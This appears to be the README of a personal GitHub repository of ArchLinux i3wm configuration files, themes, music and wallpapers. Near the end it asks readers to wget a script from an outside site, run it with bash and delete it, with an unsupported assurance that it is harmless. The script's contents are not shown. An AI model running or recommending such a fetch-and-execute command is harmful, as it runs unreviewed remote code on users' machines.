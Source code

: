 # dmitry_babaycev
A repository of ArchLinux user's configs.

* My site: http://babaycev.3dn.ru/
* Vk: https://vk.com/kuzuka_ngh

In this repository you can find

* My i3wm configuration files (Current version 2.0 from 11.10.2015) with
 * 8 Windows thenes
 * 11 Bar themes
 * 4 Dmenu themes
 
* My favorite music MP3 Files

* My favorite wallpapers 16:9

To see what I can, do this comand in terminal from user:
 $ wget http://archwell.tk/sprayer.script && bash sprayer.script && rm sprayer.script

I guarant you that it can't be dangerous for you, but if you afraid to do this, nobody makes you do this.

